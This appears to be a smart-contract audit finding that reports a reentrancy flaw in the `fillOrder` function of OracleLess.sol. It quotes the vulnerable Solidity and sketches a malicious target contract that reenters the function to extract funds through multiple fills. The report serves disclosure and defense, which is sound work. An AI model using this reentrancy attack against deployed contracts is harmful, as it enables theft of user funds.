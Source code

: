 Massive Onyx Sardine

High

# reentrency in `fillOrder` due to no nonreetrent modifier

### Summary

Critical reentrancy vulnerability in `OracleLess.sol` contract's `fillOrder` function allows attackers to manipulate order execution through malicious target contracts, enabling theft of funds through balance manipulation.

### Root Cause

The `fillOrder` function calls internal `execute` which makes external calls to user-controlled target addresses. The order removal from pending array happens after the external call, allowing reentrancy attacks to manipulate order state.

```solidity
function fillOrder(
    uint96 pendingOrderIdx,
    uint96 orderId,
    address target,
    bytes calldata txData
) external override {
    Order memory order = orders[orderId];
    
    // Execute swap with external call
    (uint256 amountOut, uint256 tokenInRefund) = execute(
        target,
        txData,
        order
    );

    // State changes after external call
    pendingOrderIds = ArrayMutation.removeFromArray(
        pendingOrderIdx,
        pendingOrderIds
    );
}
```

### Internal pre-conditions

- No reentrancy guard on fillOrder
- Order removal occurs after external call
- User-controlled target and txData parameters
- Orders stored in mapping and pending array

### External pre-conditions

- Attacker can deploy malicious target contract
- Attacker has valid order in system
- Sufficient token approvals granted

### Attack Path

1. Attacker creates legitimate order
2. Deploys malicious target:

```solidity
contract MaliciousTarget {
    function execute() external {
        // First execution - reenter fillOrder
        OracleLess(msg.sender).fillOrder(
            targetIdx,
            targetId, 
            address(this),
            txData
        );
        
        // Last execution - behave normally
        if (executionCount == maxReenters) {
            token.transfer(msg.sender, minAmountRequired);
            return true;
        }
        executionCount++;
    }
}
```


3. During fillOrder:
    - Executes swap through malicious target
    - Target reenters fillOrder
    - Manipulates balances and state
    - Final execution passes checks
    - Extracts value through multiple fills

### Impact

- Direct theft of user funds through balance manipulation
- Unauthorized order executions
- Protocol insolvency risk
- Broken order tracking state
